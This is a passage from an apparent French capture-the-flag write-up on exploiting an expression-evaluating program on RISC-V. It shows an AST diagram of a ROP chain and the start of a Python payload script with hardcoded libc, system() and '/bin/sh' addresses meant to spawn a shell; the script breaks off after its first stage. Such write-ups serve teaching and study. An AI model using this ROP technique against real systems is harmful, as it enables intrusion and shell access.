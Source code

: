 Etant donné que le fonctionnement du programme implique que chaque node représente le calcul d'au moins une de ses filles avec une autre expression (une autre node ou une constante), pour que la node 19 vaille bien `0x4141414141414141`, il faut que son expression associée soit: `<Node_18> + (0x4141414141414141 - 0x400085fa86)`, et il nous faut répéter cette logique pour toutes les nodes qui composeront notre ROP-chain, voilà un extrait de l'AST correspondant à la ROP-chain:


```goat
           .--.
          | 21 |
           '--'
          /    \
         /      \
        /        \
       /          \
    .-.            .--.
   | 0 |          | 20 | <--- Node additive qui va faire <dummy> ＋ (−<dummy> + <binsh_addr>) = <binsh_addr>
    '-'            '--'
   /   \          /    \
  /     \        /      \
 /       \      /        \
1         1    /          (-<dummy> ＋ <binsh_addr>)
           .--.            
          | 19 | <--- Node soustractive qui va faire <gadget_addr> - (<gadget_addr> - <dummy>) = <dummy>
           '--' 
          /    \
         /      \
        /        \
       /          (<gadget_addr> - <dummy>)
      .--. 
     | 18 | <--- Node additive qui va faire 0 ＋ <gadget_addr> = <gadget_addr>
      '--' 
     /    \
    ·      \
   ·        \
  ·

```

Voilà le script que j'ai fait pour automatiser la tâche d'écrire le payload:

```python
"""
   3ba86:       60e2                    ld      ra,24(sp)
   3ba88:       6522                    ld      a0,8(sp)
   3ba8a:       6105                    add     sp,sp,32
   3ba8c:       8082                    ret
"""

libc_base = 0x4000824000
system_address = 0x4000869688
binsh_address = 0x400092c6c8

first_gadget = libc_base + 0x3ba86
second_gadget = 0x41414141
third_gadget = 0x42424242

# First stage : Creating the 0th operations to trigger overflow

first_stage = "(1*1)"

# Second stage : Generating 17 dummy operations

```